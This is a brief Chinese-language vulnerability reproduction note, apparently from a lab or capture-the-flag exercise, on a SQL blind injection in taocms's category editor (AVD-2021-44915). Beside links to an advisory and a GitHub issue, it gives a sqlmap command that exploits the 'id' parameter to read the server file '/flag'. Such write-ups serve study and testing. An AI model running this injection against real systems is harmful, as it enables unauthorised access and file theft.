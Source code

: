 ## 1. 漏洞介绍
[阿里云漏洞库](https://avd.aliyun.com/detail?id=AVD-2021-44915)
## 2. 漏洞分析
[There is SQL blind injection at "Edit category"(Column administrator authority) · Issue #8 · taogogo/taocms · GitHub](https://github.com/taogogo/taocms/issues/8)
## 3. 漏洞复现
sqlmap

```bash
python sqlmap.py -r post.txt -p id  --batch --file-read "/flag"
```

![1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/202309141601029.jpg)

手动注入参见漏洞分析